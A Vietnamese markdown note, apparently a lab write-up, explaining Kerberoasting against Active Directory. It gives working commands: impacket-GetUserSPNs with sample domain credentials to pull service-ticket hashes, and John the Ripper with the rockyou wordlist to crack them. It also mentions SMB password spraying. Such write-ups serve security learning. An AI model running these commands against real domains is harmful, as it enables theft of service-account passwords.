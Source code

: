 ```
Kerberoasting là một kỹ thuật tấn công lợi dụng giao thức xác thực Kerberos trong Active Directory để trích xuất mã băm mật khẩu tài khoản dịch vụ.

Bất kỳ người dùng miền đã xác thực nào cũng có thể yêu cầu vé Dịch vụ cấp vé (TGS) cho tài khoản được liên kết với Tên dịch vụ chính (SPN) .

Một số phần của TGS được mã hóa bằng hàm băm mật khẩu NTLM của tài khoản dịch vụ .

Sau đó, kẻ tấn công có thể xóa các vé TGS này và thực hiện các cuộc tấn công bằng vũ lực hoặc từ điển ngoại tuyến để khôi phục mật khẩu dạng văn bản rõ của tài khoản dịch vụ.
```

- Yêu cầu TGS cho tài khoản được liên kết với SPN:

```
impacket-GetUserSPNs cs.org/kai.bel:password1 -request -dc-ip 192.168.200.129 -outputfile hash.kerberos
```

-> thu được hàm băm của mật khẩu được mã hóa bằng NTLM.

<img width="1043" height="162" alt="image" src="https://github.com/user-attachments/assets/f8801af1-9c25-4e39-b6b2-d9553fd84e3f" />

-> Đoc file hash.kerberos:
<img width="670" height="550" alt="image" src="https://github.com/user-attachments/assets/5ae91fd3-8677-4f79-86a2-0d10741056d1" />

- Thực hiện bẻ khóa mật khẩu với John the Ripper

```
john --format=krb5tgs hash.kerberos --wordlist=/usr/share/wordlists/rockyou.txt
```

<img width="812" height="169" alt="image" src="https://github.com/user-attachments/assets/9dafc5f1-cdb0-4f29-abca-a258654f7260" />

<img width="812" height="169" alt="image" src="https://github.com/user-attachments/assets/1ca7db11-b460-4ba6-934c-ea89544b8fb6" />

<img width="578" height="245" alt="image" src="https://github.com/user-attachments/assets/81117a57-4746-4d4b-87fe-c1d1a5e56d25" />

- Thử tấn công kiểu password spraying / credential stuffing lên SMB để tìm tài khoản có mật khẩu yếu. Lọc output để dễ thấy các kết quả quan trọng (thành công, bị khóa, lỗi khác) thay vì ngập trong hàng loạt “logon failure”.
<img width="1015" height="70" alt="image" src="https://github.com/user-attachments/assets/dd1b6ee6-ae54-4965-b95a-c5bae8953711" />

